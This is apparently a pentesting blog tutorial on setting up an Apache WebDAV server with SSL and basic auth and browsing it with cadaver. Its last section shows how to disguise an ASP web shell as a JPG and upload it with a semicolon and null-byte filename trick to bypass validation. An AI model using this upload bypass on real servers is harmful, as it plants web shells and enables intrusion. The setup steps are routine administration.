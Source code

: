 ```yaml
---
layout: post
title: "Setting Up A WebDav Server"
date: "2022-04-12"
description: "WebDAV works over HTTP and it has many benefits over transfer protocols such as FTP. These include strong encryption, robust authentication, proxy support, caching and multiple transfers through a single TCP connection (FTP requires a new connection for each file transferred.). This article looks at setting up a WebDav Server and then interacting with it via Cadaver."
coverimage: Setting_Up_A_WebDav_Server.jpg
tags: webdav
published: true
posttype: article
categories: tutorial
---
```

# Setting up a WebDav server

## Debian

Install apache2

```
root@vultr:~# apt-get install apache2
```

Enable the appropriate modules

```
root@vultr:~# a2enmod ssl
root@vultr:~# a2enmod dav_fs
root@vultr:~# a2enmod dav
```

Create an SSL certificate

```
mkdir /etc/apache2/ssl
openssl req $@ -new -x509 -days 365 -nodes -out /etc/apache2/ssl/apache.pem -keyout /etc/apache2/ssl/apache.pem
chmod 600 /etc/apache2/ssl/apache.pem
```

Create a webdav

```
root@vultr:~# mkdir /var/www/webdav
root@vultr:~# chown www-data:www-data /var/www/webdav
root@vultr:~# htpasswd -c /etc/apache2/passwd.webdav evilsaint
New password:
Re-type new password:
Adding password for user evilsaint
```

Edit the configuration file

```
root@vultr:~# cat <<EOF | tee /etc/apache2/sites-available/webdav.conf
<VirtualHost *:443>
         ServerAdmin user@host.com
         DocumentRoot /var/www/webdav
         ServerName mywebdav.lab
         DirectoryIndex disabled
         SSLEngine on
         SSLCertificateFile /etc/apache2/ssl/apache.pem
         Alias /webdav/ /var/www/webdav/

         <Location /webdav>
            DAV On
            AuthType Basic
            AuthName "webdav"
            AuthUserFile /etc/apache2/passwd.webdav
            Require valid-user
        </Location>

         ErrorLog  /var/log/webdav-error.log
         CustomLog /var/log/webdav-access.log combined
</VirtualHost>
EOF
```

Enable the site

```
a2ensite webdav
```

Restart the apache server

```
/etc/init.d/apache2 reload
```

We can now test with `cadaver` (see further info on this tool below)

```
root@evilsaint:/pentesting/enum# cadaver
dav:!> open https://104.238.128.52/webdav
WARNING: Untrusted server certificate presented for `myname':
Certificate was issued to hostname `myname' rather than `104.238.128.52'
This connection could have been intercepted.
Issued to: myorg, Widget maker, MYCITY, MYSTATE, UK
Issued by: myorg, Widget maker, MYCITY, MYSTATE, UK
Certificate is valid from Mon, 19 Mar 2018 22:57:50 GMT to Tue, 19 Mar 2019 22:57:50 GMT
Do you wish to accept the certificate? (y/n) y
Authentication required for webdav on server `104.238.128.52':
Username: evilsaint
Password:
dav:/webdav/> ls
Listing collection `/webdav/': succeeded.
       *test.txt                               0  Mar 19 23:31
dav:/webdav/> get test.txt
Downloading `/webdav/test.txt' to test.txt: [.] succeeded.
```

# Cadaver

We can use the tool Cadaver to interact with WebDAV servers.

We can query our cadaver version

```
cadaver -V
```

Start a cadaver connection to a webdav server.

```
cadaver 10.11.1.229
```

We can navigate directly into folders but we have to give a full web path

```
cadaver http://10.11.1.229/aspnet_client
```

## Upload Malicious Image Via Curl

To avoid the image content validator, we will prepend a valid JPG image to our ASP script

```
cat cat.jpg shell.asp > evil.asp;.jpg
```

```
curl --upload-file "evil.asp;.jpg" http://XX.XX.XX.XX/evil.asp;.jpg%00
```